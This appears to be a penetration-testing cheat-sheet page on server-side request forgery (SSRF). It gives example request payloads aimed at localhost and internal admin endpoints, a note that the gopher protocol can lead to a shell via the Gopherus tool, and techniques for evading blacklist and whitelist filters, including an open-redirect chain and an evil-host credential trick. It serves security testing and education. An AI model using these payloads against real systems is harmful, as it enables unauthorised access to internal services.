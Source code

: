 ```yaml
---
title: "SSRF"
weight: 23
description: "Explore advanced SSRF exploitation techniques, including bypassing filters, blind SSRF detection, protocol manipulation, and using tools like Gopherus to exploit internal services."
---
```


# SSRF

## SSRF attack

**SSRF attacks against the server itself**

```http
api=http://localhost/admin
```

**SSRF attacks against other back-end systems**

```http
api=http://192.168.0.68/admin
```

---

## Protocols

If you can control the protocol you can change it.

`file://`, `sftp://`, `gopher://`, etc.

{{< hint style=tips >}}
With gopher in some case it is possible to get a shell. E.g. interacting with mysql, redis PostgreSQL, etc. [https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus).
{{< /hint >}}

---

## Blind

Difficult to exploit because you will be able to exploit only well-known vulnerabilities.

**Detection:** Out-of-band techniques

---

## Bypass SSRF defenses

### Blacklist-based

* Alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`
* Obfuscating blocked strings using URL encoding or Double encoding
* Case variation `admin` -> `aDmIn`
* Registering your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose
* Providing a URL that you control, which subsequently redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http` to `https`

### Whitelist-based

* Add credentials: `https://expected-host:fakepassword@evil-host`
* `https://expected-host.evil-host`
* URL encode and URL double encode

### Bypassing SSRF filters via open redirection

1. Identify endpoint with open redirect

    ```md
    https://website.com/login?redirect=/my-account
    ```

2. Have the server execute a request that performs a redirect

    ```sh
    # Original
    api=http://website.com/product?productId=6
    # Exploit
    api=http://website.com/login?redirect=http://192.168.0.68/admin
    ```

---

## Finding hidden attack surface for SSRF

* Partial URLs in requests
* URLs within data formats (e.g. in XML)
* SSRF via the Referer header (Some applications use server-side analytics software to tracks visitors)
